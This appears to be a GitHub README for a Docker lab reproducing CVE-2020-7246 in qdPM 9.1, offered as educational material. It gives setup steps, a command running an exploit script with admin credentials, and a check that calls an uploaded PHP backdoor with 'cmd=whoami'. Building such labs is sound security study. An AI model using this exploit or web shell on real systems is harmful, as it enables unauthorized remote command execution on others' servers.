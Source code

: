# CVE-2020-7246 (qdPM 9.1)

For educational purposes only.

See Reference for the details.


## Run
```
$ git clone https://github.com/arafatansari/QDPMSEC.git
$ cd QDPMSEC
$ docker build -t cve-assignment:ine .
$ docker run -it -p 80:80 cve-assignment:ine
```
## Installation

Checking Environment.
![setup](https://github.com/arafatansari/QDPMSEC/blob/main/images/Installation%20Part%201.jpg?raw=true) 

Setting up SQL Server.
![setup](https://github.com/arafatansari/QDPMSEC/blob/main/images/Installation%20Part%202.jpg?raw=true) 

Create Admin login/password.
![setup](https://github.com/arafatansari/QDPMSEC/blob/main/images/Installation%20Part%203.jpg?raw=true)

In order to exploit the webapp, you need to have atleast one more admin user. Create a new ADMIN user.
![setup](https://github.com/arafatansari/QDPMSEC/blob/main/images/CreateUser.jpg?raw=true)

Add username, email and password. USE THESE CREDENTIALS in the below exploit parameters.
![setup](https://github.com/arafatansari/QDPMSEC/blob/main/images/CreateUser-2.jpg?raw=true)


## Exploit
```
$ python Exploit/exploit.py -url http://{target-ip}/qdpm/ -u test@localhost.com -p password
```

## Check (exploited)
```
$ http://{target-ip}/qdpm/uploads/users/xxxx-backdoor.php?cmd=whoami
```
